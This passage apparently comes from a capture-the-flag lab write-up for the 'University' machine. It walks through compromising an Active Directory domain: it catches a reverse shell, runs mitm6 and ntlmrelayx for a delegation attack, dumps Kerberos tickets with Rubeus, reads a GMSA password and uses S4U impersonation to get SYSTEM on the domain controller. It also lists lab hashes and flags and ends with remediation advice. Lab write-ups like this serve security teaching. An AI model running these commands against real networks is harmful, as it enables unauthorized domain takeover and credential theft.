hyena@hyena$ nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection from 192.168.99.2 65144 received!
Microsoft Windows [Version 10.0.17763.3650]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\windows\temp>whoami
university\martin.t
```

### 7.4 User Flag Captured

```powershell
PS C:\Windows\system32> type C:\Users\martin.t\Desktop\user.txt
17d50ee87af5b0e474a7290b754a83d0
```

---

## 8. Administrator on WS-3 (RBCD Attack)

### 8.1 Setting Up mitm6

On LAB-2, mitm6 is started for WPAD poisoning:

```bash
root@LAB-2:/tmp# python3 mitm6.py -d university.htb -i eth0
Starting mitm6 using the following configuration:
Primary adapter: eth0 [00:15:5d:05:80:07]
IPv4 address: 192.168.99.12
IPv6 address: fe80::215:5dff:fe05:8007
DNS local search domain: university.htb
DNS allowlist: university.htb
```

### 8.2 Creating a Fake Computer Account

```bash
hyena@hyena$ addcomputer.py -computer-name hyena -computer-pass hyena123 -dc-host dc.university.htb university/WAO:WebAO1337
[*] Successfully added machine account hyena$ with password hyena123.
```

### 8.3 Starting ntlmrelayx

```bash
root@LAB-2:~# ntlmrelayx.py -6 -t ldap://192.168.99.1 --delegate-access --escalate-user hyena$ -wh hyena -ts --no-da
[*] Servers started, waiting for connections
```

### 8.4 Triggering Authentication

On WS-3 (as martin.t), Windows Update is triggered:

```powershell
sc.exe start wuauserv
Start-Process -FilePath 'ms-settings:windowsupdate'
```

### 8.5 Relay Success

```
[*] Delegation rights modified succesfully!
[*] hyena$ can now impersonate users on WS-3$ via S4U2Proxy
```

### 8.6 Getting Administrator Ticket

```bash
hyena@hyena$ impacket-getST -spn HTTP/WS-3.university.htb university.htb/hyena\$:'hyena123' -impersonate 'Administrator' -dc-ip 10.129.231.193
[*] Saving ticket in Administrator@HTTP_WS-3.university.htb@UNIVERSITY.HTB.ccache
```

### 8.7 Connecting as Administrator on WS-3

```bash
hyena@hyena$ export KRB5CCNAME=Administrator@HTTP_WS-3.university.htb@UNIVERSITY.HTB.ccache
hyena@hyena$ evil-winrm -r university.htb -i WS-3.university.htb
*Evil-WinRM* PS C:\Users\Administrator.UNIVERSITY\Documents> whoami
university\administrator
```

---

## 9. Dumping Tickets with Rubeus

### 9.1 Uploading Rubeus

```powershell
*Evil-WinRM* PS C:\programdata> upload Rubeus.exe
```

### 9.2 Monitoring TGTs

```powershell
*Evil-WinRM* PS C:\programdata> .\Rubeus.exe monitor /nowrap
[*] Action: TGT Monitoring
[*] Monitoring every 60 seconds for new TGTs

[*] 7/28/2026 5:59:00 PM UTC - Found new TGT:
  User                  :  Rose.L@UNIVERSITY.HTB
  StartTime             :  7/28/2026 10:56:51 AM
  EndTime               :  7/28/2026 8:55:20 PM
  RenewTill             :  8/4/2026 10:55:20 AM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   : doIFejCCBXagAwIBBaEDAgEWooIEezCCBHdhggRzMIIEb6ADAgEFoRAbDlVOSVZFUlNJVFkuSFRCoiMwIaADAgECoRowGBsGa3JidGd0Gw5VTklWRVJTSVRZLkhUQqOCBC8wggQroAMCARKhAwIBAqKCBB0EggQZblxNCJZk/hnK+sdgc3fbfd2UvLd2U0SwvkqYz+HBfkOc9CcFkXe72lsfAvbK/HppxMKUPffs/CWRYho0Y3pSRdGuyDsx60WuoBQUGQCvNZon+bTvCDO6fmgaszIEy7rsAgB5ddfLCQoWSLRzNWsBPVdwSP+RcxEs10Dzsfre2wkuKXg9k1PGH6BX2mLoNy0C/tPnAL7iYY4CLtm3atmUwDMej440S64AQKmRQVV6CBMh368xVTrxezsSj7ULNUf0u2+oEk9HFa5yZhM7ttzJ7QIJaP1wNq2xCgJc1g/FEMp0E5Fe33AOUWJ18rYz1lw0p9BWaPHn2kKqviiyRmRAmfkwioQCVA/gV99KzI0Kqm9QbdknyxySevW8BiK09ElFLKWlr1iHa0lShRFzt5F1zdg+611eyBv4P6MWNP00EYD7FiX0zExN0wboVsELcCY9P5swWGEIVFOjTZ+cpCZd0+s6q1AIL6lExsNeo4HxEe2WBZI9O1EbVHsecNojxE0/EdxM6xmcOhogZaTpckVYCIavt4P2OBxhif1oTpcqAdJd/XpTfsXwNvU93K85hA0YSJDdyzs2iw3qmx+J4OCCXPEqRwHZKI0Z9GZG+qQsTiztlDegJF/Dvyc0APotmzu2KLWFKxuCuwIVBkUJ9dUQyKhprZPtaVnhReLwmc75VWIr4Avdhw59eMA0E8SXGrEN3yIYnUlKtT09mEPDPdn3MWFqN7bbi4MgkI5Fj4xmprAxZoGCMko/IfIX4GKi63/XPCIZ8v9liCH2b9oNmetB/I3Xkyjf6m4sU4fswx89HEPctoEeLkHJVU8wGemwyh24bnpD/tBrys6yJnIPzn8Wv+jUCS82L476SIAtJUHDtrxScYCEoc9GB6hqxgYL74oMbDra9pNGLDVPHgzWrii4vbTRDNIuWR4QofiLfyUdXvumdcgXHjl/QRcgsUyQhM6VzAN7IwRJZGavhi6hoMkYskhf7IoV8aDOZ2JflTDqiI/RqeByz62qw3HVo1K8Skf+oWw92VqGf8HOy8Enx2genAEl4PKF1mdyYvJ1ugCju4OpeneZkibCGB8ZXUsZLXkRN8y4qmPqkLOyn24xmC2V7LZp7v1GmK7CcWWAwbS4cmseK+WksK+bL7uisoKXtM8iSfC3fzqm1zTjx1TMcfzmZPq4/pfrglZyqVRbbRZHyd5Uhcq5x1Zk5TPasLGGlZINEBZXyuY2/QQjjZSJcU1adQuPEw4NMaTcxZrKlbWZYv0l/v+qbEPpDRk3E9q8LNiY50actG67Cp+qWn+qBzwR86nEY1wdu1DFc4AaluS9rh/fl21IhlcMzhezeRGvQnh05IBUKNl2YV2sIQbav+snk8BCZUSDgvBch2bI30+U+jHM8OBhrdHYD2ejgeowgeegAwIBAKKB3wSB3H2B2TCB1qCB0zCB0DCBzaArMCmgAwIBEqEiBCBzZjpshlikv5eOq8MQ1qqxE5WHBABNH4l4AngVL7bJcaEQGw5VTklWRVJTSVRZLkhUQqITMBGgAwIBAaEKMAgbBlJvc2UuTKMHAwUAYKEAAKURGA8yMDI2MDcyODE3NTY1MVqmERgPMjAyNjA3MjkwMzU1MjBapxEYDzIwMjYwODA0MTc1NTIwWqgQGw5VTklWRVJTSVRZLkhUQqkjMCGgAwIBAqEaMBgbBmtyYnRndBsOVU5JVkVSU0lUWS5IVEI=
```

---

## 10. Rose.L Attack (GMSA Abuse)

### 10.1 Converting Rose.L's Ticket

The Base64 ticket is converted to ccache:

```bash
hyena@hyena$ echo "doIFejCCBXagAwIBBaEDAgEWooIEezCCBHdhggRzMIIEb6ADAgEFoRAbDlVOSVZFUlNJVFkuSFRCoiMwIaADAgECoRowGBsGa3JidGd0Gw5VTklWRVJTSVRZLkhUQqOCBC8wggQroAMCARKhAwIBAqKCBB0EggQZblxNCJZk/hnK+sdgc3fbfd2UvLd2U0SwvkqYz+HBfkOc9CcFkXe72lsfAvbK/HppxMKUPffs/CWRYho0Y3pSRdGuyDsx60WuoBQUGQCvNZon+bTvCDO6fmgaszIEy7rsAgB5ddfLCQoWSLRzNWsBPVdwSP+RcxEs10Dzsfre2wkuKXg9k1PGH6BX2mLoNy0C/tPnAL7iYY4CLtm3atmUwDMej440S64AQKmRQVV6CBMh368xVTrxezsSj7ULNUf0u2+oEk9HFa5yZhM7ttzJ7QIJaP1wNq2xCgJc1g/FEMp0E5Fe33AOUWJ18rYz1lw0p9BWaPHn2kKqviiyRmRAmfkwioQCVA/gV99KzI0Kqm9QbdknyxySevW8BiK09ElFLKWlr1iHa0lShRFzt5F1zdg+611eyBv4P6MWNP00EYD7FiX0zExN0wboVsELcCY9P5swWGEIVFOjTZ+cpCZd0+s6q1AIL6lExsNeo4HxEe2WBZI9O1EbVHsecNojxE0/EdxM6xmcOhogZaTpckVYCIavt4P2OBxhif1oTpcqAdJd/XpTfsXwNvU93K85hA0YSJDdyzs2iw3qmx+J4OCCXPEqRwHZKI0Z9GZG+qQsTiztlDegJF/Dvyc0APotmzu2KLWFKxuCuwIVBkUJ9dUQyKhprZPtaVnhReLwmc75VWIr4Avdhw59eMA0E8SXGrEN3yIYnUlKtT09mEPDPdn3MWFqN7bbi4MgkI5Fj4xmprAxZoGCMko/IfIX4GKi63/XPCIZ8v9liCH2b9oNmetB/I3Xkyjf6m4sU4fswx89HEPctoEeLkHJVU8wGemwyh24bnpD/tBrys6yJnIPzn8Wv+jUCS82L476SIAtJUHDtrxScYCEoc9GB6hqxgYL74oMbDra9pNGLDVPHgzWrii4vbTRDNIuWR4QofiLfyUdXvumdcgXHjl/QRcgsUyQhM6VzAN7IwRJZGavhi6hoMkYskhf7IoV8aDOZ2JflTDqiI/RqeByz62qw3HVo1K8Skf+oWw92VqGf8HOy8Enx2genAEl4PKF1mdyYvJ1ugCju4OpeneZkibCGB8ZXUsZLXkRN8y4qmPqkLOyn24xmC2V7LZp7v1GmK7CcWWAwbS4cmseK+WksK+bL7uisoKXtM8iSfC3fzqm1zTjx1TMcfzmZPq4/pfrglZyqVRbbRZHyd5Uhcq5x1Zk5TPasLGGlZINEBZXyuY2/QQjjZSJcU1adQuPEw4NMaTcxZrKlbWZYv0l/v+qbEPpDRk3E9q8LNiY50actG67Cp+qWn+qBzwR86nEY1wdu1DFc4AaluS9rh/fl21IhlcMzhezeRGvQnh05IBUKNl2YV2sIQbav+snk8BCZUSDgvBch2bI30+U+jHM8OBhrdHYD2ejgeowgeegAwIBAKKB3wSB3H2B2TCB1qCB0zCB0DCBzaArMCmgAwIBEqEiBCBzZjpshlikv5eOq8MQ1qqxE5WHBABNH4l4AngVL7bJcaEQGw5VTklWRVJTSVRZLkhUQqITMBGgAwIBAaEKMAgbBlJvc2UuTKMHAwUAYKEAAKURGA8yMDI2MDcyODE3NTY1MVqmERgPMjAyNjA3MjkwMzU1MjBapxEYDzIwMjYwODA0MTc1NTIwWqgQGw5VTklWRVJTSVRZLkhUQqkjMCGgAwIBAqEaMBgbBmtyYnRndBsOVU5JVkVSU0lUWS5IVEI=" | base64 -d > rose.l.kirbi
hyena@hyena$ ticketConverter.py rose.l.kirbi rose.l.ccache
[*] converting kirbi to ccache...
[+] done
```

### 10.2 Retrieving GMSA Password

```bash
hyena@hyena$ KRB5CCNAME=rose.l.ccache netexec ldap dc.university.htb --use-kcache --gmsa
LDAP        dc.university.htb 389    DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:UNIVERSITY.HTB) (signing:None) (channel binding:No TLS cert)
LDAP        dc.university.htb 389    DC               [+] UNIVERSITY.HTB\Rose.L from ccache
LDAP        dc.university.htb 389    DC               [*] Getting GMSA Passwords
LDAP        dc.university.htb 389    DC               Account: GMSA-PClient01$      NTLM: de6942ca053425efd2e0b2cf1d6f7e74
LDAP        dc.university.htb 389    DC               Account: GMSA-PClient01$      aes128-cts-hmac-sha1-96: a68e801336924d77a1b5568eb41f12ea
LDAP        dc.university.htb 389    DC               Account: GMSA-PClient01$      aes256-cts-hmac-sha1-96: 55cdf09bb775e527a506065fb13012b79609b7d4a66e7d5601581e6838dc812d
```

### 10.3 Impersonating Administrator on the DC

The vulnerable ADCS template configuration (ESC9 — no security extension enforced — combined with ESC14 — weak `altSecurityIdentities` mapping) allows the GMSA machine account's NTLM hash to be leveraged directly for a Kerberos S4U2Self/S4U2Proxy impersonation chain against the DC's HTTP service:

```bash
hyena@hyena$ impacket-getST -spn http/dc.university.htb -hashes :de6942ca053425efd2e0b2cf1d6f7e74 'UNIVERSITY.HTB/GMSA-PClient01$' -impersonate Administrator -dc-ip 10.129.231.193 -no-pass
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@http_dc.university.htb@UNIVERSITY.HTB.ccache
```

### 10.4 Connecting as Administrator on the DC

```bash
hyena@hyena$ export KRB5CCNAME=Administrator@http_dc.university.htb@UNIVERSITY.HTB.ccache
hyena@hyena$ impacket-psexec -k -no-pass dc.university.htb
[*] Requesting shares on dc.university.htb.....
[*] Found writable share ADMIN$
[*] Uploading file eQMZKGpg.exe
[*] Opening SVCManager on dc.university.htb.....
[*] Creating service sDOI on dc.university.htb.....
[*] Starting service sDOI.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.6414]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

---

## 11. Root Flag

```powershell
C:\Windows\system32> cd C:\Users\Administrator\Desktop
C:\Users\Administrator\Desktop> dir
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        7/28/2026   4:46 AM             34 root.txt

C:\Users\Administrator\Desktop> type root.txt
5048c9c4357420a96a8aec19e8598521
```


---

## 12. Attack Chain Diagram

```
Full port scan → Port 80 discovered
        ↓
Web application → Django + xhtml2pdf
        ↓
CVE-2023-33733 (ReportLab RCE) → Shell as WAO
        ↓
Found WebAO1337 password in backup script
        ↓
Pivot with Chisel → Internal network access
        ↓
Forged Nya certificate → Professor access
        ↓
CVE-2023-36025 (Malicious URL file) → Shell as Martin.T
        ↓
mitm6 + ntlmrelayx (RBCD attack) → hyena$ delegation rights
        ↓
getST.py → Administrator on WS-3
        ↓
Rubeus → Dumped Rose.L's TGT
        ↓
Rose.L ticket → GMSA password (GMSA-PClient01$)
        ↓
getST.py (GMSA hash) → Administrator on DC
        ↓
impacket-psexec → Shell on DC as SYSTEM
        ↓
type root.txt → ROOT FLAG ✅
```

---

## 13. Full Results Summary

| Item | Value |
|:-----|:------|
| **Target** | university.htb (10.129.231.193) |
| **Domain Controller** | DC.university.htb |
| **Initial Foothold** | university\wao |
| **Domain Admin** | university\administrator |
| **User Flag** | `17d50ee87af5b0e474a7290b754a83d0` |
| **Root Flag** | `5048c9c4357420a96a8aec19e8598521` |

### Credentials Obtained

| User | NTLM Hash |
|:-----|:----------|
| **wao** | `WebAO1337` (password) |
| **d.baker** | `18b5fb0d99e7a475316213c15b6f22ce` |
| **a.carter** | `c068bcc3c0dcd03cd84df5af2192ad8a` |
| **h.brown** | `4ecf5242092c6fb8c360a08069c75a0c` |
| **p.adams** | `1b925c524f447bb821a8789c4b118ce0` |
| **Administrator** | `a291ead3493f9773dc615e66c2ea21c4` |

### Tools Used

| Tool | Purpose |
|:-----|:--------|
| **nmap** | Port scanning and service enumeration |
| **curl** | Web requests |
| **openssl** | Certificate manipulation |
| **certipy** | ADCS enumeration and exploitation |
| **bloodyAD** | AD manipulation (password reset, email change) |
| **bloodhound-ce-python** | Attack path analysis |
| **evil-winrm** | WinRM shell access |
| **impacket** | DCSync, getST, psexec |
| **Rubeus** | Ticket dumping |
| **mitm6** | WPAD poisoning |
| **ntlmrelayx** | NTLM relay to LDAP |
| **Chisel** | SOCKS tunneling |
| **netexec** | SMB, LDAP, WinRM enumeration |

---

## 14. Root Cause & Remediation

| # | Root Cause | Recommendation |
|---|------------|----------------|
| 1 | xhtml2pdf uses ReportLab with eval() vulnerability (CVE-2023-33733) | Upgrade to patched version; sanitize user input |
| 2 | Weak backup password (`WebAO1337`) | Enforce strong password policies |
| 3 | Root CA private key exposed on the web server | Store CA keys in secure locations with proper ACLs |
| 4 | Certificate login allows CN/email spoofing | Implement proper certificate validation |
| 5 | Malicious URL files accepted in lectures | Validate file types; restrict .url files |
| 6 | WS-3 configured for unconstrained delegation | Disable delegation for non-privileged computers |
| 7 | RBCD attack via mitm6 + ntlmrelayx | Disable WPAD; enforce SMB signing |
| 8 | GMSA password accessible to Rose.L | Restrict GMSA read permissions |
| 9 | ESC9 + ESC14 vulnerabilities | Remove NoSecurityExtension; audit altSecurityIdentities |
| 10 | DCSync privileges on p.adams | Limit DCSync permissions to Domain Admins |
| 11 | Password reuse (WebAO1337 across multiple users) | Implement unique passwords for each account |
| 12 | Weak certificate passwords (`newpassword`) | Enforce strong password policies for certificates |
| 13 | NFS share exposed with weak permissions | Restrict NFS exports; require authentication |
| 14 | Certificates stored on accessible shares | Store certificate files in secure locations |

---

*Assessment carried out by RavenHex from hyena@hyena against 10.129.231.193 (university.htb). Screenshots referenced above (`Default_page.png`, `University.png`, `User_bio_area.png`, `Submitting_payload_inBio_section.png`, `Got_initial_university_shell.png`, `Succesfull_login_as_naya.png`, `naya_professor_detail.png`, `Upload_form.png`, `pwned.png`) are included as proof-of-concept evidence for their respective steps.*
